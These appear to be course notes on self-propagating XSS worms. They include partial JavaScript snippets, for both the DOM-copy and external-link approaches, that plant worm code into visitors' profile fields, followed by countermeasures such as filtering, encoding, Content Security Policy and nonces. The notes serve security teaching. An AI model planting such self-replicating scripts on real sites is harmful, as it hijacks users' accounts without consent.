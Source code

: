 ```javascript
```
* Self-propagating XSS worm:
   * Not only will the vistors of the profile be modified, but their profiles can also be made to carry a copy of the code
   * Two typical approaches:
      * DOM approach: JavaScript can get a copy of itself directly from the DOM API
      * Link approach: JavaScript code can be included in a web page via a link using the `src` attribute of the `script` tag
   * DOM approach:
      * If a page contains JavaScript contains JavaScript code, it will be stored as an object in the DOM tree
      * If we know the DOM node that contains the code, we can use the DOM API to retrieve it
      * Every node can be given a name and accessed using `document.getElementByID()`
```javascript
window.onload = function() {
   // innerHTML does not include the script tag
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
   var jsCode = document.getElementById("worm").innerHTML;
   var tailTag = "</" + "script>";
   
   // Put all pieces together, and apply the URI encoding
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
   
   /// Set the contents of the description field
   var desc = "..." + wormCode;
   ...
}
```
   * Link approach:
      * The JavaScript code `xssworm.js` will be fetched from the URL
      * Hence, we do not need to include all the worm code in the profile
      * One drawback is that this approach needs a server to store the code - this can be blocked by the website
```javascript
window.onload = function() {
   var wormCode = encodeURIComponent("<script id=\"worm\" type=\"text/javascript\">" + "id=\"worm\" " + "src=\"http://www.example.com/xssworm.js\">" + "</" + "script>");

   var desc = "..." + wormCode;
   ...
}
```

### Countermeasures:
* The filter approach:
   * Removes code from user inputs
   * Difficult to implement as there are many ways to embed code other than the `<script>` tag
   * There exist open-source libraries for filtering out JavaScript code, such as jsoup
* The encoding approach:
   * Replace HTML markup with alternate representations
   * If data containing JavaScript code is encoded before being sent to the browser, the embedded code will be displayed by browsers rather than executed by them
   * E.g. convert `<script>alert('XSS');</script>` to `&lt'script&gt;alert('XSS')`
* Content security policy:
   * Fundamental problem: mixing data and code (code is inlined)
   * Solution: force data and code to be sepearated
      * Don't allow the inline approach
      * Only allow the link approach (e.g. `<script src=...>`)
   * Policy can be based on the origin of the code
      * E.g. `Content-Security-Policy: script-src 'self' example.com https://apis.google.com`
      * Disallow all inline JavaScript, or only allow JavaScript from own site/Google/etc.
* Nonce:
   * Securely allowing inline JavaScript